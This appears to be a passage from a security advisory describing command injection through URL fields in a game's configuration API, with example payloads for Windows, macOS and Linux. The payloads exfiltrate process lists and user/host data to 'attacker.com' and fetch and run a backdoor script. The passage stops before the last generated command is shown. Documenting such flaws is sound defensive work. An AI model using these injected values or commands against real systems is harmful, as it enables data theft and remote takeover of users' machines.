 **REQUEST (via game API or configuration):**

```http
POST /game/config HTTP/1.1
Content-Type: application/json

{
  "help_url": "http://docs.game.com & powershell -Command \"Get-Process | Select-Object Name,Id | ConvertTo-Json | Invoke-WebRequest -Uri http://attacker.com/exfil -Method POST -Body $input\" & rem"
}
```

**EXECUTED COMMAND:**

```cmd
rundll32 url.dll,FileProtocolHandler http://docs.game.com & powershell -Command "Get-Process | Select-Object Name,Id | ConvertTo-Json | Invoke-WebRequest -Uri http://attacker.com/exfil -Method POST -Body $input" & rem
```

This results in three separate command executions:

1. `rundll32 url.dll,FileProtocolHandler http://docs.game.com` - Opens legitimate URL
2. `powershell -Command "..."` - **MALICIOUS COMMAND EXECUTED** - Exfiltrates process information
3. `rem` - Comments out any additional parameters

### macOS Headless Environment

**REQUEST:**

```json
{
  "tutorial_url": "http://help.game.com; curl -X POST -d \"$(whoami)@$(hostname):$(pwd)\" http://attacker.com/collect; echo"
}
```

**EXECUTED COMMAND:**

```bash
open http://help.game.com; curl -X POST -d "$(whoami)@$(hostname):$(pwd)" http://attacker.com/collect; echo
```

### Linux Container Advanced Exploitation

Even with quote protection, sophisticated payloads can escape:

**REQUEST:**

```json
{
  "update_url": "http://updates.game.com\\\"; curl -o /tmp/backdoor http://attacker.com/payload.sh && chmod +x /tmp/backdoor && /tmp/backdoor & echo \\\""
}
```

**GENERATED COMMAND:**
